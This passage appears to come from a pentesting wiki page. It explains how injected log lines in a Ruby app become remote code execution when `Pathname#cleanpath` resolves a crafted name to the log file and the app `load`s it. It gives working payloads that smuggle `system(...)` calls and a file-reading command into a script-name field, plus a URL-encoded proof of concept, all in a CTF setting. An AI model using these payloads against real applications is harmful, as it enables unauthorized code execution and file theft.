 `Pathname#cleanpath` ignores schemes and collapses traversal components, so the following works:
```ruby
require 'pathname'

p = Pathname.new("\n][0]=1;system(\"touch /tmp/pwned\")#://../../../../logs/error.log")
puts p.cleanpath   # => ../logs/error.log
```
- The `#` before `://` ensures Ruby ignores the tail when the log is executed, while `cleanpath` still reduces the suffix to `../logs/error.log`.
- The leading newline breaks out of the INFO line; `]` closes the dangling bracket; `][0]=1` satisfies the parser.

### End-to-end exploitation
1. Send the following as the backup script name (URL-encode the first newline as `%0A` if needed):
   ```
   \n][0]=1;system("id > /tmp/pwned")#://../../../../logs/error.log
   ```
2. The app logs your raw string into `logs/error.log`.
3. The app computes `cleanpath` which resolves to `../logs/error.log` and calls `load` on it.
4. Ruby executes the code you injected in the log.

To exfiltrate a file in a CTF-like environment:
```
\n][0]=1;f=Dir['/tmp/flag*.txt'][0];c=File.read(f);puts c#://../../../../logs/error.log
```
URL-encoded PoC (first char is a newline):
```
%0A%5D%5B0%5D%3D1%3Bf%3DDir%5B%27%2Ftmp%2Fflag%2A.txt%27%5D%5B0%5D%3Bc%3DFile.read(f)%3Bputs%20c%23%3A%2F%2F..%2F..%2F..%2F..%2Flogs%2Ferror.log
```

## References

- Rails Security Announcement: CVE-2025-24293 Active Storage unsafe transformation methods (fixed in 7.1.5.2 / 7.2.2.2 / 8.0.2.1). https://discuss.rubyonrails.org/t/cve-2025-24293-active-storage-allowed-transformation-methods-potentially-unsafe/89670
- GitHub Advisory: Rack::Static Local File Inclusion (CVE-2025-27610). https://github.com/advisories/GHSA-7wqh-767x-r66v
- [Hardware Monitor Dojo-CTF #44: Log Injection to Ruby RCE (YesWeHack Dojo)](https://www.yeswehack.com/dojo/dojo-ctf-challenge-winners-44)
- [Ruby Pathname.cleanpath docs](https://docs.ruby-lang.org/en/3.4/Pathname.html#method-i-cleanpath)
- [Ruby Logger](https://ruby-doc.org/stdlib-2.5.1/libdoc/logger/rdoc/Logger.html)
- [How Ruby load works](https://blog.appsignal.com/2023/04/19/how-to-load-code-in-ruby.html)

{{#include ../../banners/hacktricks-training.md}}
